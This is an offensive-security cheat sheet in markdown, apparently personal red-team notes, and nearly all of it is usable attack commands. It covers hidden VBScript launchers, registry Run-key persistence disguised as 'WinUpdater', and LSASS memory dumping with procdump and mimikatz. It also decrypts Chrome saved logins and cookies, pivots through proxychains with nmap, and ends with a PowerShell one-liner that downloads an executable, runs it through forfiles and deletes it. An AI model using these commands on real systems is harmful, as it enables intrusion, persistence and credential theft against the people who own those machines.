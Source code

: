 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>
````
Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%TEMP%\wncat.bat" & Chr(34), 0
Set WinScriptHost = Nothing


WScript.Sleep(5000):Set objShell = WScript.CreateObject("WScript.Shell"):objShell.Run("start C:\Users\Public\putty.exe"), 0, True
````

````
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"
````

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````
Анализируйте запросы ARP для определения взаимодействующих хостов и устаревших конфигураций сетевых адресов (SNAC)
https://github.com/arch4ngel/eavesarp


## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
